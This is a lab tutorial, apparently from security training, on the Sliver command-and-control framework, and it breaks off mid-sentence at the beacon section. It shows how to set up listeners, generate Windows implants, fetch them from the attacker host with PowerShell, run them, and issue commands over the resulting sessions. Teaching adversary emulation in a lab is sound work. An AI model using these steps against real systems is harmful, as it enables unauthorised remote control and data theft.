# Sliver C2

## Lab Goal

The goal of this lab is to introduce **Sliver C2 Framework**. We will demonstrate how a Command and Control framework operates with the use of **Sliver**.

## In this lab you will

- Learn the basics of **Sliver C2** framework
- Create listeners for various protocols
- Create implant in **Session** and **Beacon** mode
- Run basic commands through the C2 channel
- Create and manage implant profiles.
- View and manage tasks issued to sessions or beacons.

## What is Sliver

**Sliver** is an open-source Command and Control framework used for adversary emulations, red team operations, and security testing. It provides advanced capabilities for covertly managing and controlling remote systems. 

Sliver follows a client-server architecture. The Sliver server manages listeners, implants, sessions, beacons, tasks, and collected results. The Sliver client, also called the operator console, is used by the operator to connect to the server and interact with the C2 environment.

Sliver's implants support connections over various protocols, such as:

- Mutual TLS (mTLS)
- WireGuard
- HTTP/HTTPS
- DNS

This is very useful because the operators are able to use the most suitable protocol depending on the current scenario, network environment, and communication requirements.

Sliver implants can operate as either sessions or beacons. A session provides a more interactive connection with the target system, while a beacon periodically checks in with the C2 server, receives tasks, executes them, and returns the results.

It's worth mentioning that Sliver also supports multiplayer mode, allowing multiple operators to connect to the same Sliver server during a team-based assessment.

## Lab Environment

In this lab we will use both Linux and Windows virtual machines:

- **Attacker VM:** Linux machine running the Sliver server and Sliver client/operator console.
- **Target VM:** Windows machine where the Sliver implant will be executed.

In this lab, both the Sliver server and the Sliver client will run on the same Linux VM.

In this lab, we will skip the implant delivery phase and transfer the implant directly to the target Windows VM.

## Prerequisites

Before starting this lab, it is recommended to read the following file in order to become familiar with basic C2 terminology and concepts:

[C2 Basic Terminology & Theory](/Decks/CORE_v3.1/C2E/C2_Basic_Terminology_&_Theory.md)

## Launch the Sliver C2 Environment

Now, we will launch Sliver and access the operator console on the same system.

Open an Ubuntu terminal:



Then run:

```bash
cd ~/BnB/Sliver/
```

```bash
sliver
```

If you see the error in the image below:



Run the following command, and then launch Sliver again:

```bash
sudo systemctl start sliver
```

```bash
sliver
```



After successfully accessing the Sliver console, we are ready to start our first configurations. If we want to see what commands we can execute at some point, we can use the help command.

```bash
help
```



This command can also help us in case we don't know how to use a Sliver command, or we want to see what parameters we can use. This is achieved by executing:

```bash
help <sliver_command>
```

Or

```bash
<sliver_command> --help
```



## Listeners

Before creating our first implant, we will configure a listener. A listener is a service running on the Sliver server that waits for incoming connections from implants.

We can have multiple listeners over the same protocol with the caveat that each listener must listen on a different port number.

We can create listeners directly by typing the protocol name and pressing Enter:

```bash
http
```

```bash
mtls
```



In this case, the listeners listen on the following default ports:

```
DNS Listener        -->    UDP Port 53
HTTP Listener       -->    TCP Port 80
HTTPS Listener      -->    TCP Port 443
mTLS Listener       -->    TCP Port 8888
WireGuard Listener  -->    UDP Port 53
```

When starting a listener, we can use several parameters to customize how the listener behaves. The most important ones are:

- `--lhost <IP>`: Specifies the local IP address or network interface where the listener will bind. When we start a listener without specifying `--lhost`, Sliver binds the listener to all available interfaces.
- `--lport <PORT>`: Specifies the port where the listener will listen.
- `--domain <DOMAIN>`: Limits the listener responses to a specific domain. This means that the listener will only respond when requests are made using the specified domain. This parameter is only for HTTP/HTTPS listeners.

>[!NOTE]
>
>Some listener types may use the same default port. For example, DNS and WireGuard both use UDP port `53` by default. Two services cannot listen on the same IP address and port at the same time, so if the port is already in use, we must choose a different port with `--lport`.

We can use the above parameters individually or in combination. For example:

- If the Sliver C2 server has an interface with the IP address `10.1.0.32` and we want an mTLS listener to bind to this address on port `8395`, we can execute:

```bash
mtls --lhost 10.1.0.32 --lport 8395
```

- If we have the `example.com` domain and we want an HTTP listener on port `83`, that responds only to this domain, we can execute:

```bash
http --domain example.com --lport 83
```

Create a new HTTP listener on port 81.

```bash
http --lport 81
```

Assume that we have the `antisyphon.labs` domain listening on port `82`. Make a listener dedicated only to this domain.

```bash
http --domain antisyphon.labs --lport 82
```




To see the listeners we have created and information for them, run the `jobs` command:

```bash
jobs
```



Now we have the listener's ID, name, protocol, port, and domain. If we want to terminate a specific listener or all of them, we can use these `jobs` command parameters:

- `-k <Listener_ID>`: This parameter terminates a specific listener
- `-K`: This parameter terminates all the listeners

Terminate the listeners with IDs 3 and 4 and list the listeners again.

```bash
jobs -k 3
jobs -k 4
```



```bash
jobs
```



## Profiles

Before generating an implant, we can create a profile. A profile is a reusable implant configuration that stores the options we want to use when generating implants. This facilitate the implant generation procedure because instead of writing the same generation parameters every time, we can define them once inside a profile and reuse that profile later.

A profile can include information such as:

- The C2 protocol the implant will use
- The Sliver server address
- The target operating system
- The target architecture
- The implant format

To create a profile, we use the `profiles new` command.

For example, if we want to create a Windows implant profile that connects back to our Sliver server using mTLS, we can use:

```bash
profiles new --mtls <SLIVER_SERVER_IP>:8888 --os windows --arch amd64 --format exe win-mtls
```

In this command:

- `--mtls <SLIVER_SERVER_IP>:8888`: defines the mTLS C2 endpoint that the implant will connect back to
- `--os windows`: specifies that the implant will be generated for Windows
- `--arch amd64`: specifies a 64-bit implant
- `--format exe`: creates a Windows executable file
- `win-mtls`: is the name of the profile

In our case, the Silver server IP address is `10.10.68.153`, so the command becomes:

>[!NOTE]
>
>Your IP will be different. Use yours!

```bash
profiles new --mtls 10.10.68.153:8888 --os windows --arch amd64 --format exe win-mtls
```



Some of the most commonly used parameters when creating profiles are the followings:

- `--mtls <IP:PORT>`: Use mTLS as the C2 protocol
- `--http <IP:PORT>`: Use HTTP/HTTPS as the C2 protocol
- `--dns <IP:PORT>`: Use DNS as the C2 protocol
- `--wg <IP:PORT>`: Use WireGuard as the C2 protocol
- `--os`: Specify the target operating system (`windows`, `linux`, `mac`). The default operating system is Windows
- `--arch`: Specify the target architecture (`amd64`, `386`, `arm64`, etc.). The default architecture is `amd64`
- `--format`: Specify the implant format (`exe`, `dll`, `service`, `shellcode`, etc.)
- `--skip-symbols`: Remove symbol information to reduce the binary size
- `--save`: Specify where the generated implant should be saved

We can list the available profiles with the `profiles` command:

```bash
profiles
```



If we want to display information about a specific profile, run:

```bash
profiles info <profile_name>
```

For example, for the `win-mtls` profile:

```bash
profiles info win-mtls
```



To delete a profile run:

```bash
profiles rm <profile_name>
```

In the next section, we will use this profile to create an implant based on the saved settings.

## Implants

An implant is the program generated by Sliver and executed on the target system. Once executed, the implant connects back to the Sliver listener and allows the operator to interact with the target through a session or beacon.

In Sliver, we can generate implants in two main ways:

- By directly specifying all generation options with the `generate` command
- By using a previously created profile with the `profiles generate` command

### Direct Implant Generation

To generate an implant directly, we can use the `generate` command and specify the required options.

For example, to generate a Windows 64-bit executable implant that connects back to our mTLS listener, we can run:

```bash
generate --mtls 10.10.68.153:8888 --os windows --arch amd64 --format exe --save .
```



The generation process may take a moment.



After the command completes, Sliver saves the generated implant as **INTEGRATED_SALARY.exe** in the current directory.

### Profile-Based Implant Generation

Since we already created the `win-mtls` profile, we can now create an implant using the saved profile settings. As mentioned above, we don't need to specify all the parameters again.

To generate an implant from a profile, run:

```bash
profiles generate <profile_name>
```

In our case, we will make an implant for the `win-mtls` profile. Execute the following command:

```bash
profiles generate win-mtls --save .
```



Sliver will use the configuration stored in the `win-mtls` profile and generate an implant with the same settings.

We can see the generated implants with the `implants` command:

```bash
implants
```



Open another Ubuntu terminal, navigate to the same directory, and list the files:

```bash
cd ~/BnB/Sliver/
ls
```



At this point, the implants have been generated on the Ubuntu VM. The `INTEGRATED_SALARY.exe` is the implant we created directly and the `TERRITORIAL_PROFILE.exe`, is the implant created by the profile.

## Sessions & Beacons

Sliver implants can operate in two main modes: **session mode** and **beacon mode**.

Session implants provide an interactive connection, while beacon implants periodically check in with the Sliver server to receive and return tasks.

The implants we created so far are **session implants**. First, we will execute both of them on the Windows target VM and verify that they connect back to Sliver.

**In this lab, we will skip the delivery phase. We will manually transfer and execute the generated implants directly to the Windows VM.**

In the second Ubuntu terminal, start a python HTTP server.

```bash
python3 -m http.server
```



Now, from the Windows VM, open a powershell and execute the following commands to download the implants.

```powershell
cd .\Desktop\Labs\Sliver\
```

Use your Ubuntu VM's IP and the name of the generated implants:

Example:

```powershell
iwr "http://UBUNTU_IP:8000/IMPLANT_NAME" -OutFile "IMPLANT_NAME.FROMAT"
```

In our case:

```powershell
iwr "http://10.10.68.153:8000/INTEGRATED_SALARY.exe" -OutFile "INTEGRATED_SALARY.exe"
```

```powershell
iwr "http://10.10.68.153:8000/TERRITORIAL_PROFILE.exe" -OutFile "TERRITORIAL_PROFILE.exe"
```

```bash
ls
```



From here, we can now execute the implants. Execute the first one:

```powershell
.\INTEGRATED_SALARY.exe
```



Return to the Ubuntu terminal where we are using the Sliver. You will notice a notification from our implant connection.



This confirms that the implant executed and connected back to our Sliver C2 server (Press Enter to write again at the Sliver's console). 

Run the second implant like before:

```powershell
.\TERRITORIAL_PROFILE.exe
```





So now, both our implants are executed, and we have their sessions. Let's see how we can see and interact with them.

To see the sessions, use the `sessions` command:

```bash
sessions
```



The next step is to interact with a session.

This can be achieved with two different commands:

- `sessions`: With the `-i` parameter followed by the session ID, allows us to use a session
- `use`: We can run the `use` command followed by the session ID, or by itself, and then through the interactive menu choose the session we want to interact with

We will demonstrate the `use` command functionalities.

```bash
use <SESSION_ID>
```

Let's use the first session this way:

```bash
use 67e8c738
```



From here, we can now execute commands at the target machine:

```bash
whoami
```

```bash
ls
```



```bash
ifconfig
```



```bash
env
```



In case we want to exit the session, run the `background` command:

```bash
background
```



Now, we will interact with the second session. Use the `use` command by itself:

```bash
use
```



Then choose the second session.



We can now interact with the second session like before.

```bash
whoami
```

```bash
ls
```



```bash
background
```



In case we want to terminate one or all the sessions, we can use the following parameters:

- `-k <SESSION_ID>`: With the use of this parameter, the designated session is killed
- `-K`: With the use of this parameter, all the sessions are killed

Terminate the first session:

```bash
sessions -k 67e8c738
```





>[!NOTE]
>
>If your terminal crashes after terminating the session, close it and open a new Ubuntu terminal. Then, navigate to the same directory and launch Sliver again.
>`cd ~/BnB/Sliver/`
>`sliver`

So far, we have created and executed session implants. Now, we will create two beacon implants: one directly with the `generate` command, and another using a profile.

### Direct Beacon Implant Generation

When we want to create a beacon implant, first we have to specify the `beacon` keyword after the `generate` command, and then some additional parameters. These are the following:

